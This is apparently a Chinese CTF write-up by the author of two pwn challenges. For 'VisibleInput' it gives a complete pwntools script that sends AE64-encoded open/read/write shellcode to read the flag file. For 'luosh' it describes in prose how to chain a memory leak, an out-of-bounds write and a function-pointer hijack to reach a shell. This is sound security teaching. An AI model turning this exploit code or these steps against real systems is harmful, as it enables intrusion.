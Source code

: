 
## VisibleInput

```python
from pwn import *
from ae64 import AE64

p = gdb.debug('./pwn')

context.arch = 'amd64'
context.terminal = ['tmux', 'split-w', '-h']
context.log_level = 'debug'
s = shellcraft

payload = s.open('./flag')
payload += s.read(3,0x20240000,30)
payload += s.write(1,0x20240000,30)

ss = AE64().encode(asm(payload),'rdx',0,'fast')

p.send(ss)
p.interactive()
```

只是想让大家了解`AE64`这个工具，如果使用工具的话题目本身并没有难度。 

## luosh

> luo 给他的系统写了一个 shell，可在那之后他的电脑总被别人攻击。你能帮他找出里面有哪些漏洞吗？
>
> - 本题与堆无关
> - 请不要用 ld 直接启动 (类似于 ./ld-linux-x86-64.so.2 ./pwn)
> - 无思路请:hammer:出题人​
>
> 
>
> hint 
>
> - 解析时的检查真的正确吗？
> - `luofuck`是什么？好像和上一次也没什么区别...
> - 对于无效的命令会输出怎样的报错信息？ **再次说明一下，本题预期解与堆无关，打堆会使得原本简单的问题变得很复杂**

预期难度：Hard++

毕竟是防 ak 的题，所以出得洞比较晦涩，但无新知识。预期解大致可以分为以下的 3 步：

- 首先往栈上输入时，若命令不存在会输出无效的指令，而在输入时并没有防死一定以`\x00`结尾，所以利用未初始化的内存可以 leak libc and proc
- 利用 parse 的写后判断的 oob 可以覆盖 inode，这里有一个任意写。但如果可以直接 rop 也太简单了，所以这里直接 ban 了 stack 和 libc，也就是任意写只能写在 proc 上。
- 然后这里就引入了`luofuck`，可以执行上一条命令，但是执行命令的索引`idx`却是在 bss 上。所以可以用一个任意写覆盖`idx`直接造成索引越界，可以控制执行流。考点是函数指针的劫持。这里有 3 条思路：
  - one gadget，没试过
  - 如果用 system 需要将任意写的地址设为`idx - 0x8`，在前面塞个`/bin/sh;`，因为参数使用的是上一次任意写的参数。
  - 也可以分两段来写，将任意写地址指向`idx - 0x20`，运行`echo /bin/sh [offset] > [filename]`
